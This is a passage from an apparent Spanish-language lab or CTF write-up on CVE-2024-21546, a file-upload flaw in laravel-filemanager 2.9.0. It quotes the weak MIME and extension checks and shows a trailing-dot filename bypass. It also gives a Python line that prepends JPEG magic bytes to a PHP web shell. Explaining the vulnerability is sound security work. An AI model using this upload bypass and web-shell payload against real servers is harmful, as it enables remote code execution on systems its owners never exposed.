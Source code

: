 En la versión [`2.9.0`](https://github.com/UniSharp/laravel-filemanager/blob/v2.9.0/src/LfmUploadValidator.php#L64C5-L74C1) podemos ver cómo solamente se comprobaba el tipo de archivo mediante `getMimeType()`, sin verificar adicionalmente por caracteres especiales

~~~ php
public function mimetypeIsNotExcutable($excutable_mimetypes)
    {
        $mimetype = $this->file->getMimeType();

        if (in_array($mimetype, $excutable_mimetypes)) {
            throw new ExcutableFileException();
        }

        return $this;
    }
~~~

La cadena de validaciones se construía de la [siguiente manera](https://github.com/UniSharp/laravel-filemanager/blob/v2.9.0/src/LfmPath.php#L256) en la función `validateUploadedFile()`

~~~ php
$validator->mimetypeIsNotExcutable(config('lfm.disallowed_mimetypes', ['text/x-php', 'text/html', 'text/plain']));

$validator->extensionIsNotExcutable(config('lfm.disallowed_extensions', ['php', 'html']));
~~~

Es posible eludir estas restricciones utilizando una extensión que termina con un `.`, engañando al sistema para que ejecute código PHP malicioso

~~~ bash
test.jpg.php.
~~~

### Proof of Concept

La siguiente [prueba de concepto](https://github.com/ajdumanhug/CVE-2024-21546/blob/main/CVE-2024-21546.py#L41) sigue la misma lógica de la imagen donde enviamos código PHP posterior a los `Magic Numbers` de una imagen. En mi caso he utilizado una imagen `jpeg`, por lo que los magic numbers son ligeramente diferentes.

La siguiente línea de código forma parte de un [script](https://pastebin.com/raw/KJb0bs6H) en `python3` que construí para replicar la misma lógica.

~~~ python
img_payload = (b"\xFF\xD8\xFF\xE0\x0D\x0A" + "<?php system($_GET['cmd']); ?>".encode())
~~~

> Los "magic numbers" de una imagen (o de cualquier archivo digital) son una secuencia específica de `bytes` que aparece al **comienzo del archivo** y que sirve para identificar su **tipo o formato**.
{: .notice--info}

Podemos agregar la imagen y manualmente agregar el código PHP debajo de los primeros `bytes` del archivo

![image-center](/assets/images/posts/environment-burpsuite-4.png)